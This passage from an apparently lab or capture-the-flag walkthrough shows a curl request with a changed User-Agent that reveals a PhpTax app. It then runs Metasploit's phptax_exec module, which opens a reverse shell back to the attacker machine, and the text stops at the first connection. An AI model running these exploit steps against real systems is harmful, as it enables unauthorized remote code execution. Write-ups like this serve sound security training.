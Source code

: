   
We'll need to access the server running on 8080 with a different user-agent.  
 
```console
root@kali:~/Desktop# curl -H "User-Agent:Mozilla/4.0" http://192.168.1.68:8080


<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">  
<html>  
 <head>  
  <title>Index of /</title>  
 </head>  
 <body>  
<h1>Index of /</h1>  
<ul><li><a href="phptax/"> phptax/</a></li>  
</ul>  
</body></html> 


root@kali:~/Desktop# curl -H "User-Agent:Mozilla/4.0" http://192.168.1.68:8080/phptax/
    _lots of markup_ 
```
  
So what should we do next?  

---

## 3\. Getting a shell, and root

```
msf > **use exploit/multi/http/phptax_exec**  
  
msf exploit(phptax_exec) > **show options**  
  
Module options (exploit/multi/http/phptax_exec):  
  
   Name       Current Setting  Required  Description  
   ----       ---------------  --------  -----------  
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]  
   RHOST                       yes       The target address  
   RPORT      80               yes       The target port  
   SSL        false            no        Negotiate SSL/TLS for outgoing connections  
   TARGETURI  /phptax/         yes       The path to the web application  
   VHOST                       no        HTTP server virtual host  
  
  
Exploit target:  
  
   Id  Name  
   --  ----  
   0   PhpTax 0.8  
  
  
  
msf exploit(phptax_exec) > **set RHOST 192.168.1.68**  
RHOST => 192.168.1.68  
  
msf exploit(phptax_exec) > **set RPORT 8080**  
RPORT => 8080  
  
msf exploit(phptax_exec) > **run**  
  
[*] Started reverse TCP double handler on 192.168.1.67:4444   
[*] 192.168.1.688080 - Sending request...  
[*] Accepted the first client connection...  
```